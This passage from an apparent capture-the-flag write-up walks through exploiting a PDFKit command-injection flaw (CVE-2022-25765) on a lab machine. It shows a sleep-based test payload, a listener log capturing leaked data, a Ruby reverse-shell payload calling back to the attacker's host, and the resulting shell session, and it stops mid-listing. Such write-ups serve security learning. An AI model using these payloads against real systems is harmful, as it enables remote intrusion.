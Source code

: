 In order not to leave anything to chance, however, let's also take a look at the first one. Looking for _exploits_ for the first tool, something comes up, but it doesn't seem to work despite multiple attempts.

[NVD - CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583?ref=secjuice.com)

Convinced that it is still the second tool that is really the object of the challenge, I want to look for exploits for this second one.

[CVE-2022-25765 - GitHub Advisory Databsae](https://github.com/advisories/GHSA-rhwx-hjx2-x4qr?ref=secjuice.com)

A nice list.

[Snyk Vulnerability Database](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795?ref=secjuice.com)

And that looked really interesting. I immediately tried with the verification _payload_ shown in the example, which gave me good results. Sleep seems to have been performed before the conversion process and the pdf is returned to me after the 15 seconds indicated, increasing the time of the command also increases the interval before the download starts.

    http://10.10.14.14:5000/file.html?name=#{'%20`sleep 15`'}

We should have identified the vulnerability. Now, let's see how to use it. The second example _payload_ also provides useful information, and the commands interpreted by the converter are reported as processed data in the URL addressed to my **php** server.

    [Mon Dec 12 15:42:45 2022] 10.10.11.189:53504 Accepted
    [Mon Dec 12 15:42:45 2022] 10.10.11.189:53504 [200]: GET /file.html?pwd=/var/www/pdfapp&user=ruby
    [Mon Dec 12 15:42:45 2022] 10.10.11.189:53504 Closing

All we have to do is insist on this path, and try to recover as much information as possible and perhaps take advantage of the execution of commands via _injection_ of the payload into the **URLs**. Despite my attempts, I still couldn't recover the data in the most common files, so I decided to look for a more specific _payload_ for this attack that allowed me to exploit an **RCE,** and I found it easily.

[CVE-2022-25765-pdfkit-Exploit-Reverse-Shell](https://www.ctfiot.com/84447.html?ref=secjuice.com)

Of course, I refined the attack and identified the payload that fits my scenario.

    http://10.10.14.14:5000/file.html?name={%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.14",4444))')`}

Perfect, despite having obtained a **reverse shell** on the machine, it seems that my user does not own the _user flag_, let alone have permission to read it.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 46478
    whoami
    ruby
    pwd
    /var/www/pdfapp
    ls -la
    total 36
    drwxr-xr-x 6 root root 4096 Oct 26 08:28 .
    drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
    drwxr-xr-x 4 root ruby 4096 Oct 26 08:28 app
    drwxr-xr-x 2 root ruby 4096 Oct 26 08:28 config
    -rw-r--r-- 1 root ruby   59 Sep 10 09:46 config.ru
    -rw-r--r-- 1 root ruby   99 Sep 17 14:17 Gemfile
    -rw-r--r-- 1 root ruby  478 Sep 26 05:04 Gemfile.lock
    drwxrwxr-x 2 root ruby 4096 Dec 12 16:34 pdf
    drwxr-xr-x 4 root ruby 4096 Oct 26 08:28 public
    ls -la /home/
    total 16
    drwxr-xr-x  4 root  root  4096 Oct 26 08:28 .